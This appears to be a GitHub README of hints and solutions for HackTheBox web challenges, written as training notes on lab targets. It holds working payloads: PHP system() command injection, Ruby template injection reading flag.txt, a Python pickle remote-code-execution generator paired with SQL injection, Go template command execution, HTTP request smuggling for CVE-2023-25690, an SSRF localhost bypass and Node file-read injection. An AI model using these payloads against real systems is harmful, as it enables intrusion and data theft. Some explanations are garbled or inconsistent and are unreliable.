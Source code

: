 **01 web_lovetok:**

 - Link: https://app.hackthebox.com/challenges/lovetok
 - Hint/Solution "?format=${system(@_GET[cmd]}&cmd=ls ../"
 - Explanation: 
	1. http://178.62.11.21:30505/: This is the base URL.
    2. ?format=$_{system($_GET[1])}: This part of the URL suggests an attempt to inject code. 
   3. It looks like it's trying to use the system function in PHP to execute a command specified in the $_GET[1] parameter.
   4. &1=ls+/: The &1=ls+/ part is likely an attempt to pass the command ls+/ as the value for the $_GET[1] parameter. 
   5. This command typically lists the files and directories in a Unix/Linux system.

**02 Toxic:** cookie to base64
 - Link: https://app.hackthebox.com/challenges/toxic
 -  Hint: Cache is Encoded With Base64 and LFI to RCE via Header Injection.
 - Solution: https://dhanush-ramuk.medium.com/toxic-hackthebox-challenge-walkthrough-easy-5629d066c127
     
**03 Neonify:**
    

 - Link: https://app.hackthebox.com/challenges/neonify
 - Hint: Encode With url Encoding.
	 - <%= File.open('flag.txt').read %> # Read file
 -  Solution: 
	 - ```curl 159.65.20.166:32127 \ -s -X POST -d 'neon=a %3C%25%3D%20File.open%28%27flag.txt%27%29.read%20%25%3E' | grep -Eo 'HTB{.*}'```
 -  Explanation: https://drt.sh/posts/htb-neonify/

             
   
    
**05 COP:**
    

 - Link: https://app.hackthebox.com/challenges/cop
 - Hint: No Flag value in DB, use script
```
import pickle
import base64
import os

payload = 'cp flag.txt application/static/.'

class RCE:
    def __reduce__(self):
        return os.system, (payload,)

if __name__ == '__main__':
    print(base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii'))
```
 - Steps:
	 - run script on local copy the <value> output and 
		add to the url like 
		target/1' UNION SELECT '<VALUE>
 - Solution: https://drt.sh/posts/htb-cop/

**06 Render Quest:**
    

 - Link: https://app.hackthebox.com/challenges/renderquest
 - Hint: Prepare A malicious Like that can have Command in it
	 1. go https://webhook.site/    	
	 2. Preaper Request with Respond Body of {{.FetchServerInfo "ls -la"}}
	 3. Modify it as you go
 - Solution: https://medium.com/@tanish.saxena26/hackthebox-renderquest-cf6c493d7b83

**07 ApacheBlaze:**
 - Link: https://app.hackthebox.com/challenges/ApacheBlaze
 - Hint: CVE-2023–25690 (https://github.com/dhmosfunk/CVE-2023-25690-POC/tree/main#internal-http-request-smuggling-via-header-injection)
```
GET /api/games/click_topia HTTP/1.1
Host: dev.apacheblaze.local


GET / HTTP/1.1
Host: localhost:1337

-----------------------------------
Reminder for encoding : 

\r\n     ->  %0d%0a
\r\n\r   ->  %0d%0a%0d
```
 - 	After Url Encoding
```
   GET
   /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
	Host: localhost:1337
   ```
- Solution: https://medium.com/@reinhardt.pwn/hackthebox-challenge-write-up-apacheblaze-a32643f19c45

**07 ProxyAsAService:**
- Link: https://app.hackthebox.com/challenges/proxyasaservice
- Hint: Bypass Local Host IP. Flag Stored in debug/environment
- Solution:
   		```
	 	http://159.65.20.166:32723/?url=@0.0.0.0:1337/debug/environment
		```
- Explanation: https://medium.com/@reinhardt.pwn/hackthebox-challenge-write-up-proxyasservice-ed593e9f179b

**08 JScalc:**
- Link: https://app.hackthebox.com/challenges/jscalc
- Hint: Read Function In JS.
- Solution:
  	```
   {
   	"formula":"require('fs').readFileSync('/flag.txt').toString();"
   }
   	```
- Explanation: https://medium.com/@tanish.saxena26/hackthebox-jscalc-95c0435c849d

**10 HTBank:**
- Link: https://app.hackthebox.com/challenges/htbank
- Hint: HTTP Parameter Pollution.
- SolutionL:
- 	In a request just add one more amount parameter with value of 1337.
		  ```
		  -----------------------------372602692120017375223068472451
			Content-Disposition: form-data; name="account"
			
			0x038f3bed54d3d0ed704fff0bede93ae2
			-----------------------------372602692120017375223068472451
			Content-Disposition: form-data; name="amount"
			
			0
			
			-----------------------------372602692120017375223068472451
			Content-Disposition: form-data; name="amount"
			
			1337
			-----------------------------372602692120017375223068472451--
		  ```
  -	after that, the ending of the request will be like this, and in response, you will get "OK".
  -	now refresh the page.
- Explanation: Watch any parameter pollution video/writeUP.
